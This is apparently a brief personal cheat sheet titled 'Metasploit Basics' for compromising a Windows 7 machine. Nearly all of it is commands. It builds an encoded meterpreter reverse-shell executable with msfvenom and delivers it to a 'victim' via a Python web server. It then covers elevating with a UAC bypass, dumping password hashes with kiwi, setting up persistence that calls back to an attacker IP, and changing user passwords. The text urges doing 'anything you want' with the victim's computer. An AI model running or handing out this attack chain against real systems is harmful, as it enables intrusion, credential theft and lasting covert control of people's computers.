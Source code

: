 # Metasploit Basics #
OS Windows 7
- - - - 

#### 1. Create the .exe with Venom ####

    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.6 lport=4444 -e x86/shikata_ga_nai -f exe > /root/Desktop/socks.exe
    msfvenom -p windows/meterpreter/reverse_tcp lhost={Your IP} lport={Port number} -e x86/shikata_ga_nai -f exe > {File's path}


#### 2. On metasploit, select the payload ####

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
Configure the settings
<pre>show options</pre> and <pre>exploit</pre

#### 3. ITs necesary to execute the file on the victim's computer ####
Use <code>python -m SimpleHTTPServer 80</code> to have an easy acces to your file wihtout the need of download it.
Run your file through any browser on victim's computer using your IP and the connection should be established.


Then do anything you want with the computer's victim, remember alway use:
>   <code>show options</code> to configure the settings.  

>   <code>background</code> to set the current session on background.

>   <code>sessions</code> list all the active sessions.

>   <code>exploit</code> or <code>run</code> execute the exploit



#### Get system credentials #### 
    use exploit/windows/local/bypassuac
#### Use Kiwi to get all the hashes ####
    load kiwi
    lsa_dump_sam
#### Make a permantent connection with the victim ####
    run persistence -U -i 5 -p 4444 -r 192.168.0.3
    run persistence -U -i {Intervale time} -p {port} -r {lhost IP}
#### Change user password ####
    use windows/manage/change_password
